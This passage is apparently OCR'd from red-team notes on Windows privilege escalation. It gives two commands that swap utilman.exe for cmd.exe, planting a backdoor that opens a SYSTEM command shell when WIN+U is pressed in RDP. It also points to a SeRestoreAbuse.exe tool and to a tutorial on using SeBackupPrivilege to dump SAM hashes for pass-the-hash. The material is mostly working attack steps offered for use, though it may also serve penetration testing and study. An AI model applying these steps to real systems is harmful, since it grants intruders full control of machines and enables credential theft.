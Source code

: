 ```
 move C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
move C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe 
 ```

3\. **Utilman\.exe**is triggered in **RDP**by using **WIN\+U**in RDP\.

Or try this: [https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe](#https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe)
\.


**SeBackupPrivilege**\- use this tutorial [https://juggernaut-sec.com/sebackupprivilege/#Exfiltrating_the_SAM_and_SYSTEM_Files_Dumping_the_Hashes_and_Performing_a_Pass-the-Hash_Attack_to_Escalate_to_SYSTEM](#https://juggernaut-sec.com/sebackupprivilege/#Exfiltrating_the_SAM_and_SYSTEM_Files_Dumping_the_Hashes_and_Performing_a_Pass-the-Hash_Attack_to_Escalate_to_SYSTEM)
